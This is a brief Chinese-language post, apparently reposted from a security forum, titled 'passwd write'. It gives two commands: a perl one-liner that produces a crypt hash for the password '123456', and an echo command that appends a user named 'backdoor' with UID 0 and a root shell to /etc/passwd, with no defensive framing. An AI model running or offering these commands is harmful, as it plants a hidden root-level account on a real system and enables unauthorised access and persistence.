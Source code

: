 # passwd写入

> 原文：[https://www.zhihuifly.com/t/topic/3500](https://www.zhihuifly.com/t/topic/3500)

## passwd写入

```
perl -e 'print crypt("123456", "AA"). "\n"'
echo "backdoor:AASwmzPNx.3sg:0:0:me:/root:/bin/bash">>/etc/passwd 
```

![image](img/3616bfc17b420d330c208c26bf83f396.png)

![image](img/819e22b43cc77e7c310a44e5fdde946a.png)